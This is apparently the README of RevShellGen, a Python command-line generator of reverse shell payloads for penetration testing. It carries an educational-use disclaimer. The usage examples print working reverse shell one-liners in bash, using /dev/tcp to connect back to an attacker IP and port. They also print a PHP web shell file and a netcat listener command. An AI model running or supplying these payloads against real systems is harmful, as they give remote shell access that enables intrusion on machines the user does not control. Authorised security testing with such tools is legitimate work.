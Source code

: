 # RevShellGen
RevShellGen is a command line reverse shell generator. It can easily generate predefined reverse shells.

Right now tested only for python3 and under linux environment.

**Disclaimer: This repository, information and scripts in it are for educational purposes only. 
Users take full responsibility for any actions performed using this tool. 
The author accepts no liability for damage caused by this tool.**

## TODO
- add other reverse shell payloads

## Usage
Install required packages from `requirements.txt`.
```
pip3 install -r requirements.txt
```

Run with python3
```
$ python3 rsg.py 
 ______               _______ __           __ __ _______              
|   __ \.-----.--.--.|     __|  |--.-----.|  |  |     __|.-----.-----.
|      <|  -__|  |  ||__     |     |  -__||  |  |    |  ||  -__|     |
|___|__||_____|\___/ |_______|__|__|_____||__|__|_______||_____|__|__|
                                                                      

Available payloads: ['bash', 'java', 'netcat', 'perl', 'php', 'php_reverse_shell_file', 'python', 'ruby', 'tiny_php_shell_file']

usage: rsg.py [-h] [--ip IP] [--interface INTERFACE] [--port PORT] [--payload PAYLOAD] [-s]

optional arguments:
  -h, --help            show this help message and exit
  --ip IP               Local IP address
  --interface INTERFACE
                        Interface
  --port PORT           Opened port
  --payload PAYLOAD     Define which payload to generate
  -s, --silent          Print out only payload
```

Define interface OR ip address, and payload to generate specific payload/s
```
$ python3 rsg.py --ip 10.10.10.10 --payload bash
 ______               _______ __           __ __ _______              
|   __ \.-----.--.--.|     __|  |--.-----.|  |  |     __|.-----.-----.
|      <|  -__|  |  ||__     |     |  -__||  |  |    |  ||  -__|     |
|___|__||_____|\___/ |_______|__|__|_____||__|__|_______||_____|__|__|
                                                                      

Available payloads: ['bash', 'java', 'netcat', 'perl', 'php', 'php_reverse_shell_file', 'python', 'ruby', 'tiny_php_shell_file']

Payload:
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1

Payload:
0<&196;exec 196<>/dev/tcp/10.10.10.10/8080; sh <&196 >&196 2>&196

Payload:
/bin/bash -l > /dev/tcp/10.10.10.10/8080 0<&1 2>&1



For local listener execute:
nc -nvlp 8080
```

When you want to generate file payload (for example `tiny_php_shell_file`), you can use `--silent`
```
$ python3 rsg.py --ip 10.10.10.10 --payload tiny_php_shell_file -s > tiny_shell.php
$ cat tiny_shell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/8080 0>&1'");?>
```

## References
[1] http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

[2] https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

[3] https://gist.github.com/rshipp/eee36684db07d234c1cc#file-shell-php
